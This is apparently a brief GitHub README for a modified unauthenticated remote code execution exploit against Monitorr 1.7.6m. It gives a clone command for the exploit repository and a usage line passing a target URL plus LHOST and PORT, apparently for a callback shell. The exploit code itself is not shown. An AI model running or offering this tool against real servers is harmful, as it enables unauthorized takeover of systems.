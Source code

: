 # Monitorr 1.7.6m Remote Code Execution (Unauthenticated)
## Modified Version by valent1ne


### Usage
``git clone https://github.com/valentinodev/monitorr_1.7.6m_remote_code_execution_modified.git && cd monitorr_1.7.6m_remote_code_execution_modified``

``python exploit.py https://domain.com LHOST PORT``

